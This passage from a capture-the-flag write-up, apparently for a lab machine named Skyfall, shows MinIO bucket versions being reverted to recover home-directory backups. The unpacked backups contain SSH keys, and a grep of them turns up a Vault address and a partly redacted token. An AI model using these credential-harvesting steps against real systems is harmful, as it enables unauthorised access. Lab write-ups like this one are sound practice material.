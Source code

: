 ```bash
[2023-11-07 21:35:56 PST]  48KiB STANDARD null v1 PUT emoneypenny/Welcome.pdf
[2023-11-07 20:58:22 PST]     0B gmallory/
[2023-11-07 21:36:02 PST]  48KiB STANDARD null v1 PUT gmallory/Welcome.pdf
[2023-11-07 16:08:01 PST]     0B guest/
[2023-11-07 16:08:05 PST]  48KiB STANDARD null v1 PUT guest/Welcome.pdf
[2023-11-07 20:59:05 PST]     0B jbond/
[2023-11-07 21:35:45 PST]  48KiB STANDARD null v1 PUT jbond/Welcome.pdf
[2023-11-07 20:58:10 PST]     0B omansfield/
[2023-11-07 21:36:09 PST]  48KiB STANDARD null v1 PUT omansfield/Welcome.pdf
[2023-11-07 20:58:45 PST]     0B rsilva/
[2023-11-07 21:35:51 PST]  48KiB STANDARD null v1 PUT rsilva/Welcome.pdf
```

As we can see here there are three (3) version of the backup files listed here. 
We can undo the versions and download all of them to our own machine. 

## Undo version 
```bash
./mc undo myminio/askyy/home_backup.tar.gz
✓ Last upload of `home_backup.tar.gz` (vid=25835695-5e73-4c13-82f7-30fd2da2cf61) is reverted.
```

Then I can copy to my machine
## Copy to Kali
```bash
./mc cp myminio/askyy/home_backup.tar.gz ./
...skyy/home_backup.tar.gz: 2.64 KiB / 2.64 KiB 
```

After getting all three versions I created directories for each one, inside a backup directory to keep it organized and unpacked them with tar. 

## Unpacking the tar files
```bash
tar -xzvf home_backup.tar.gz
<SNIP>
./terraform-generator/.github/ISSUE_TEMPLATE/feature_request.md
./terraform-generator/.github/ISSUE_TEMPLATE/bug_report.md
./.bashrc
./.ssh/
./.ssh/id_rsa
./.ssh/id_rsa.pub
./.ssh/authorized_keys
./.viminfo
./.sudo_as_admin_successful
./.bash_history
./.bash_logout
./.cache/
./.cache/motd.legal-displayed
<SNIP...>
```
Searching through the backup files I found a vault address and token
## Searching for goodies in the backups
```bash
grep -rn "VAULT"                                                 
2/.bashrc:43:export VAULT_API_ADDR="http://prd23-vault-internal.skyfall.htb"
2/.bashrc:44:export VAULT_TOKEN="hvs.CAESIJlU9JMYEh[REDACTED]"
```
Next I needed to install Vault
I found this github where I downloaded and compiled vault https://github.com/hashicorp/vault
Afterwards I also found that I could have just grabbed the binary from https://developer.hashicorp.com/vault/install
